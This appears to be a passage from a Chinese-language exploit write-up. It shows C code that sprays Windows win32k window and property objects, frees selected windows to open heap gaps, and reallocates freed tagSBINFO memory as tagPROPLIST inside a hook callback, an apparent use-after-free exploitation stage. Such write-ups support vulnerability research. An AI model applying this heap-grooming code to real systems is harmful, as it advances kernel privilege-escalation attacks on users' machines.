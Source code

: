 # Stage 2

按照我们的思路在初始化阶段准备大量 `tagWND` 结构：

```c
BOOL InitWindows(HINSTANCE hInstance, HWND* hwndArray, int count)
{
	...

	for (int i = 0; i < count; i++)
	{
		hwndArray[i] = CreateWindowExA(
			0,
			g_szClassName,
			0,
			WS_OVERLAPPEDWINDOW,
			CW_USEDEFAULT,
			CW_USEDEFAULT,
			CW_USEDEFAULT,
			CW_USEDEFAULT,
			(HWND)NULL,
			(HMENU)NULL,
			NULL,
			(PVOID)NULL
		);

		if (hwndArray[i] == NULL)
			return FALSE;

		SetPropA(hwndArray[i], (LPCSTR)(1), (HANDLE)0xCCCCCCCCCCCCCCCC);
	}
}

InitWindows(hInstance, inithwnd, MAX_OBJECTS);	// 这一部分作为内存填充

InitWindows(hInstance, spraywnd, MAX_SPRAY_OBJECTS); // 这一部分为增加 tagPROP 条目作铺垫

// 准备一个缺口
for (int i = 0; i < count; i++)
{
	if ((i % 0x150) == 0)
		DestroyWindow(inithwnd[i]);
}
```

在回调函数中释放 `tagSBINFO` 然后分配 `tagPROPLIST`，这时是第二次调用 `setPropA`，所以分配的是 0x28 大小的块。

```c
if (hookflag)
{
	if (++hookcount == 2)
	{
		hookflag = 0;
		DebugBreak();

		DestroyWindow(hwnd);
		DebugBreak();

		for (int i = 0; i < MAX_SPRAY_OBJECTS; i++)
			SetPropA(spraywnd[i], (LPCSTR)0x06, (HANDLE)0xCAFECAFECAFECAFE);

		DebugBreak();
	}
}
```